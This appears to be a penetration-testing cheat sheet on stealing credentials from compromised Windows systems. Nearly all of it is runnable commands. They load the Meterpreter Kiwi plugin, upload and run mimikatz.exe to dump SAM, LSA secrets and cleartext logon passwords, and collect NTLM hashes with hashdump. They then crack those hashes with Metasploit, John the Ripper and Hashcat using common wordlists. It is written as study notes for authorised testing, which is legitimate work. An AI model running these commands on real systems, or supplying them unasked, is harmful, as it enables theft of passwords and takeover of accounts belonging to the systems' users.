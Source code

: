 # Dumping Hashes With Mimikatz - Kiwi

The Meterpreter Kiwi plugin is a Metasploit Framework extension based on Mimikatz, designed for extracting sensitive credentials from compromised Windows systems.

**Kiwi Extension for Credential Dumping**

```shell
# Load the Kiwi Extension for Credential Dumping.
load kiwi # Load the Kiwi extension.
help kiwi  # Shows the help menu for available Kiwi commands.

creds_all # Dump all stored credentials, including plaintext passwords, hashes, and Kerberos tickets.
lsa_dump_sam # The SAM file contains hashed credentials for local user accounts.
lsa_dump_secrets # Find the syskey by dumping the LSA secrets.
```

**Manual Credential Extraction Using Mimikatz Executable**

```shell
# Upload the Mimikatz executable from your local machine.
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe

shell # Start a command shell from the Meterpreter session.
.\mimikatz.exe # Execute Mimikatz from the shell.

# Verify Privileges in Mimikatz
privilege::debug  # Should return 'Privilege '20' OK' if successful.
lsadump::sam  # Dumps hashed credentials from the SAM file.
lsadump::secrets  # Extracts system secrets.

# Extract Cleartext Passwords from Memory
sekurlsa::logonpasswords # If the system is configured to store passwords in memory, Mimikatz can extract them.
# If no cleartext passwords appear, the system is likely well-configured and secured.
```

> **NOTE:** When users log on to a Windows system, credentials might be stored in memory. Misconfigured systems can store these passwords in cleartext, allowing tools like Mimikatz to retrieve them. Well-configured systems clear passwords from memory, meaning no results will appear from this command.

<br>

# Windows Credential Dumping and Cracking

**Dump NTLM hashes**

```shell
# List of user accounts and their hashes  
hashdump

# Verify that the hashes are stored in the MSF database or not.
background
creds
```

**Crack NTLM hashes using Metasploit**

```shell
# Use an auxiliary NTLM hash cracking module to crack stored NTLM hashes.
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST <passwords_wordlist>
exploit
creds
```

**Crack NTLM hashes using John The Ripper**

```shell
john
john --list=formats
john --list=formats | grep NTLM
john --list=formats | grep NT

# If we don't specify the word list, then John The Ripper will use its default word list.
john --format=NT hashes.txt

# For specific wordlist
john --format=NT hashes.txt --wordlist=<wordlist_location> # Save the credentials

# Example:
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

From a penetration tester’s perspective, this information is extremely valuable because it means we can now legitimately authenticate to the target system — either through **RDP** or another protocol such as **SSH**.

**Crack NTLM hashes using Hashcat**

```shell
hashcat --help
hashcat -a 0 -m 1000 hashes.txt /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
# Cracks NTLM hashes (-m 1000) using a wordlist attack (-a 0) against hashes stored in hashes.txt.
# Commonly used for Windows password hashes dumped from SAM/NTDS files.
```
